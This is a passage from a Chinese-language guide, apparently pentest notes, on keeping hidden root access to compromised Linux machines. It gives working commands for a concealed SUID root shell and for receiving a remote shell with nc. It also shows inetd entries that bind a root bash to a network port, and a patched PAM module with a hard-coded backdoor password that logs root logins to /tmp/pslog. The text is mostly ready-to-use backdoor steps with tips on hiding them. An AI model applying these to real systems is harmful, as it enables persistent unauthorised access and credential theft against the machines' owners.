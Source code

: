 然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可.

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为 root 用户,并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你,肯定能想出很多好的名字的.
文件前面的那一点也不是必要的,只是为了隐藏文件( 在文件名的最前面加上".",就可以在任意文件目录下进行隐藏) .
```bash
# 现在,做为一个普通用户,我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
# 为什么不行呢? 因为 bash2 针对 suid 有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
# 使用 -p 参数来获取一个 root shell. 这个 euid 的意思是 effective user id
# 这里要特别注意的是,作为一个普通用户执行这个 SUID shell 时,一定要使用全路径.
```
如何查找那些具有 SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有 SUID 位的文件啦.

**远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用 nc 来爆菊
```
可以修改/etc/services文件,加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM 后门**

主要思路:pam_unix_auth.c 打补丁安装到正常的 PAM 模块中.
1、获取目标系统所使用的 PAM 版本:
`rpm -qa |grep pam`
2、编译安装 PAM
3、将本地 pam_unix_auth.c 文件通过打补丁方式,编译生成.
4、编译完后的文件在:modules/pam_unix/.libs/pam_unix.so,后门密码为 root123,并会在 /tmp/pslog 记录 root 登录密码.
